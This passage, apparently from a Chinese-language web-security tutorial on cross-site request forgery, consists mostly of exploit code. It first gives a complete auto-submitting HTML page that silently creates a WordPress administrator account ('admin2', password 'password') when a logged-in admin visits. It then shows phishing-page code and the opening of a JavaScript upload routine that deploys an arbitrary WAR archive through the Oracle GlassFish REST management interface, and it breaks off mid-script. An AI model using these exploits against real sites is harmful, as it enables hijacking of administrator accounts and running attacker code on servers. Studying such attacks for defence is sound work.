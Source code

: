 另一个测试用例时添加某个具有管理员权限的用户，测试用例为 :

```
 <html>
 <body onload="javascript:document.forms[0].submit()">
 <H2>CSRF Exploit to add Administrator</H2>
 <form method="POST" name="form0" action="http://<wordpress_ip>:80/wp-admin/user-new.php">
 <input type="hidden" name="action" value="createuser"/>
 <input type="hidden" name="_wpnonce_create-user" value="<sniffed_value>"/>
 <input type="hidden" name="_wp_http_referer" value="%2Fwordpress%2Fwp-admin%2Fuser-new.php"/>
 <input type="hidden" name="user_login" value="admin2"/>
 <input type="hidden" name="email" value="admin2@admin.com"/>
 <input type="hidden" name="first_name" value="admin2@admin.com"/>
 <input type="hidden" name="last_name" value=""/>
 <input type="hidden" name="url" value=""/>
 <input type="hidden" name="pass1" value="password"/>
 <input type="hidden" name="pass2" value="password"/>
 <input type="hidden" name="role" value="administrator"/>
 <input type="hidden" name="createuser" value="Add+New+User+"/>
 </form>
 </body>
 </html>
```

## Oracle GlassFish Server - REST Cross-Site Request Forgery

该漏洞是由 Security-Assessment.com 发现的，Oracle GlassFish 服务器的 REST 接口可以被 CSRF 请求攻击，譬如其可以允许普通用户任意上传 WAR 包，并且可以控制在服务端运行从而导致窃取其他运行应用的信息。关于具体的攻击复盘可以参考[这里](http://blog.kotowicz.net/2011/04/how-to-upload-arbitrary-file-contents.html)。其攻击手段是首先在钓鱼站点上设置如下按钮 :

```
<button id="upload" onclick="start()" type="button">Upload WAR Archive</button>
```

然后添加如下脚本 :

```
var logUrl = 'http://glassfishserver/management/domain/applications/application';

function fileUpload(fileData, fileName) {
    var fileSize = fileData.length,
      boundary = "---------------------------270883142628617",
      uri = logUrl,
      xhr = new XMLHttpRequest();

    var additionalFields = {
          asyncreplication: "true",
          availabilityenabled: "false",
          contextroot: "",
        createtables: "true",
        dbvendorname: "",
        deploymentplan: "",
        description: "",
        dropandcreatetables: "true",
        enabled: "true",
        force: "false",
        generatermistubs: "false",
        isredeploy: "false",
        keepfailedstubs: "false",
        keepreposdir: "false",
        keepstate: "true",
        lbenabled: "true",
        libraries: "",
        logReportedErrors: "true",
        name: "",
```